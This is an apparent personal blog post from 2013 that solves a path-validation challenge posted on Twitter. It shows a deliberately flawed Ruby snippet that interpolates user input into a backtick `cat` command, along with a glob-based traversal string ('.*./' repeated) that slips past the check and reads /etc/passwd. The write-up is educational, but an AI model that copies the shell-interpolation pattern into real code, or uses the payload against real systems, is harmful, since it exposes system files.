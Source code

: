 ```yaml
---
layout: post
title: "Challenge Accepted: Local File Inclusion"
date: 2013-12-09 08:18
comments: true
categories: Challenge, Security, Local File Inclusion
---
```


This morning I woke up to some unfriendly ice rain, and the snow covered sidewalk has turned into an ice-skating rink.  Baby steps were necessary to avoid ending up in a horizontal position unvolunerily.  I made it to the train station safely, and got on the NYC-bound train.
On the bright side, Egor Homakov (@homakov) posted a challenge on Twitter for finding the local file inclusion security hole in a piece of path validation code.

```ruby
input = 'sub/dir/ectory'
input = input.strip
 
raise 'NO WAI' if input[0] == '/'
 
if input.split('/').any?{|folder| !(folder =~ /\A[a-zA-Z*.]+\z/) or folder == '..' }
puts 'Error'
else
puts `cat #{input}`
end
```

Looks like my 40 minute train ride has turned into a hacking session and I eagerly played around with the provided code to access the contents of my local `etc/passwd` file. Eureka! Finally, I figured out that by breaking up `..` (parent directory) with the wildcard `*`, I could trick the validation code into allowing my path string. Also, in `bash` the folder `.*.` behaves the same as `..`, so by prepending `etc/passwd` with the right number of `.*./` strings, I could finally access the coveted password file.

``` ruby
# Note: This path gives me the passwd file contents on my local system
input = '.*./.*./.*./.*./.*./etc/passwd'
 
input = input.strip
 
raise 'NO WAI' if input[0] == '/'
 
if input.split('/').any?{|folder| !(folder =~ /\A[a-zA-Z*.]+\z/) or folder == '..' }
puts 'Error'
else
puts `cat #{input}`
end
```